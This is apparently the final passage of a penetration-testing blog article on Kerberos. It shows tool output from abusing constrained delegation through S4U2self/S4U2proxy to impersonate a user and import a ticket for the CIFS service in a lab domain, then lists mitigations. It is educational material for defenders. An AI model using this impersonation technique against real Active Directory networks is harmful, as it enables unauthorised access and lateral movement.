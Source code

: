 ```powershell
[*] Using domain controller: PRIMARY.testlab.local (172.16.0.254)
[*] Building S4U2self request for: 'TESTLAB.LOCAL\m0chan'
[*]   Impersonating user 'aidan' to target SPN 'ldap/dc.m0chanAD.local'
[*]   Final ticket will be for the alternate service 'cifs'
[*] Sending S4U2self request
[*] Connecting to 172.16.0.254:88
[*] Sent 1437 bytes
[*] Received 1574 bytes
[+] S4U2self success!
[*] Building S4U2proxy request for service: 'ldap/dc.m0chanAD.local'
[*] Sending S4U2proxy request
[*] Connecting to 172.16.0.254:88
[*] Sent 2618 bytes
[*] Received 1798 bytes
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi):
 
      doIGujCCBragAwIBBaEDAgE...(snip)...
 
[*] Action: Import Ticket
[+] Ticket successfully imported!
```



Now we don't really have to issue a `s4u` request if we own the account, we could simply request a `TGS` ticket but of course we would be limited to the context of the pwned account. The `S4U` request is simply if we want to abuse the account trusted for **Constrained Delegation** but impersonate any users context to access said service. 



### [](#header-3)Mitigation / Defending Constrained Delegation 



- Also if a user is part of the **Protected-Users Group** he/she will will not be allowed for delegation
- Configure all Privileged or Sensitive Accounts with `Account is Sensitive and Cannot be Delegated.
- Use Strong-Strong Passwords for Accounts Trusted for Delegation





# [](#header-1) Conclusion



I believe in this article I have clearly demonstrated that while Kerberos is a really cool protocol and probably the best internal authentication protocol it has a large attack-surface for adversary's. All IT Professionals should be aware of this attack-surface so they can configure there environments to meet the mitigation standards otherwise if poorly configured it will not take long for a attacker to compromise the network as a whole very very quickly. 
